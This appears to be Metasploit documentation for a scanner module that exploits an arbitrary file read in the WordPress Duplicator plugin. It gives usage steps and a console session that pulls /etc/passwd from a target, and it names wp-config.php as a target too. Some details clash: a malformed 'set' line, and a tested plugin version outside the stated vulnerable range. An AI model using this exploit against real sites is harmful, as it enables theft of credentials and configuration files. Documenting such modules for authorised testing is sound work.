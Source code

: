 ## Description
The issue is being actively exploited, and allows attackers to download arbitrary files, such as the wp-config.php file.
According to the vendor, the vulnerability was only in two versions v1.3.24 and v1.3.26, the vulnerability wasn't present in versions 1.3.22 and before.

## Verification Steps

Confirm that functionality works:
1. Start `msfconsole`
2. `use auxiliary/scanner/http/wp_duplicator_file_read`
3. Set the `RHOSTS`
4. Set the `RPORT`
5. Set the `DEPTH`
6. Set the `FILEPATH`
6. Run the exploit: `run`
 

## Scenarios

```
msf5 > use auxiliary/scanner/http/wp_duplicator_file_read
msf5 auxiliary(scanner/http/wp_duplicator_file_read) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf5 auxiliary(scanner/http/wp_duplicator_file_read) > set rport 8080
rport => 8080
msf5 auxiliary(scanner/http/wp_duplicator_file_read) > set FILEPATH /etc/passwd
FILEPATH => /etc/passwd
msf5 auxiliary(scanner/http/wp_duplicator_file_read) > set FILEPATH DEPTH 5
DEPTH => 5

msf5 auxiliary(scanner/http/wp_duplicator_file_read) > run

[*] Downloading file...

[....Content File....]

[+] File saved in: /root/.msf4/loot/20201211005722_default_13.250.118.98_duplicator.trave_383073.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

## Test environment

Ubuntu 20.04 running WordPress 5.6, Duplicator 1.2.6
